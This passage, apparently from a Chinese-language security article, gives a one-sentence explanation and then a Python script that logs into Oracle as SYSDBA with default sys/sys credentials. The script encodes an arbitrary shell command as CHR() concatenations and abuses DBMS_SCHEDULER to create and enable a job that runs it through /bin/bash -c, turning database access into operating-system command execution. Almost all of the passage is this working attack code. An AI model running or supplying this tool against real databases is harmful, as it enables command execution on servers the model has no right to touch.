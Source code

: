 这里采用的是第一种方式，一共只需要传递 2 个参数即可，由于 &1 被 Oracle 进行了特殊处理，因此可以直接调用 CHR 函数进行编码。

```
import cx_Oracle
import time

def connect_oracle(username, password, sid, hostname, port=1521):
    dsn = cx_Oracle.makedsn(hostname, port, service_name=sid)
    connection = cx_Oracle.connect(username, password, dsn, cx_Oracle.SYSDBA,encoding="UTF-8")
    return connection


def query_row_oracle(sql, connection):
    cur = connection.cursor()
    results = cur.execute(sql)
    for row in results:
        print(row[0])


def execute_sql_oracle(sql, connection):
    cur = connection.cursor()
    results = cur.execute(sql)
    connection.commit()

def convert_command_to_oracleString(command):
    command_list = list(command)
    command_oracleString = ''
    for k in range(0,len(command_list)):
        command_oracleString += 'CHR(' + str(ord(command_list[k])) + ')'
        if(k + 1 != len(command_list)):
            command_oracleString += "||"
    # print(command_oracleString)
    return command_oracleString

def dbms_scheduler_execute(command , connection):
    job_name = 'JOracle1'
    bash_command = convert_command_to_oracleString(command)
    create_job_command = "begin \nDBMS_SCHEDULER.CREATE_JOB(job_name=>'%s',job_type=>'EXECUTABLE', number_of_arguments=>2,job_action =>'/bin/bash',auto_drop=>FALSE); \nend;"%(job_name)
    set_job_args_command = "begin \n DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('%s',1,'-c'); \nend;"% (job_name)
    bash_for_job_command = "begin \n  DBMS_SCHEDULER.SET_JOB_ARGUMENT_VALUE('%s',2,%s); \nend;" % (job_name, bash_command)
    enable_job_command = "begin \n  DBMS_SCHEDULER.ENABLE('%s'); \nend;" % job_name
    drop_job_command = "begin \n DBMS_SCHEDULER.DROP_JOB(job_name=>'%s');\nend;" %(job_name)
    execute_sql_oracle(drop_job_command, connection)
    """
    print(create_job_command)
    print(set_job_args_command)
    print(bash_for_job_command)
    print(enable_job_command)
    print(drop_job_command)
    """
    execute_sql_oracle(create_job_command, connection)
    execute_sql_oracle(set_job_args_command, connection)
    execute_sql_oracle(bash_for_job_command, connection)
    execute_sql_oracle(enable_job_command, connection)
    time.sleep(3)
    
   # execute_sql_oracle(drop_job_command, connection)


if __name__ == "__main__":
    connection = connect_oracle('sys','sys','helowin','127.0.0.1')
```